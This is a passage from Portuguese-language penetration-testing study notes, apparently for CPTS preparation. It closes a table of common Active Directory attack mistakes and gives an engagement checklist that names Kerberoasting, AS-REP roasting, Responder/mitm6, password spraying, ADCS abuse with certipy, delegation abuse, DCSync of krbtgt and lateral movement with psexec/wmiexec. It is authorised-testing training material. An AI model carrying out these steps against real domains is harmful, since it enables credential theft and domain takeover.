| Esquecer DNS | Kerberos por IP falha; aponte `-ns`/`/etc/hosts` para o DC |
| Relógio dessincronizado | `KRB_AP_ERR_SKEW`; sincronize antes de culpar a credencial |
| Rodar tudo no host da vítima | Deixa ferramenta no disco; prefira executar via rede quando possível |

---

## ✅ Checklist

- [ ] Domínio, DC, SID, usuário atual e grupos anotados
- [ ] Trusts mapeados (`nltest /domain_trusts`, `Get-DomainTrust`)
- [ ] Enum sem credencial feita (SMB null, RPC, LDAP anônimo, kerbrute)
- [ ] AS-REP roasting rodado em toda a lista de usuários
- [ ] Responder/mitm6 rodados conforme escopo (e parados depois)
- [ ] Enum credenciada completa (nxc + PowerView)
- [ ] BloodHound coletado e caminho mais curto identificado
- [ ] Política de senha lida antes de qualquer spraying
- [ ] Kerberoasting tentado em todas as contas com SPN
- [ ] GPP e LAPS verificados
- [ ] ACLs exploráveis listadas com pré-requisito confirmado
- [ ] ADCS enumerado (`certipy find -vulnerable`)
- [ ] Delegação (unconstrained/constrained/RBCD) avaliada
- [ ] DCSync executado no mínimo necessário (krbtgt + prova)
- [ ] Movimento lateral testado (psexec/wmiexec/winrm) com evidência
- [ ] Caminho até Domain Admin **documentado passo a passo**
- [ ] Recomendações de hardening escritas
- [ ] Ferramentas deixadas no alvo inventariadas para limpeza

---

## 🔗 Relacionado

- [[CPTS 13 - Active Directory Enumeration and Attacks]]
- [[Fase 08 - Pivoting e Tunneling]]
- [[Fase 10 - Privilege Escalation]]
- [[Fase 11 - Pós-Exploração]]
- [[Workflow do Engage]]
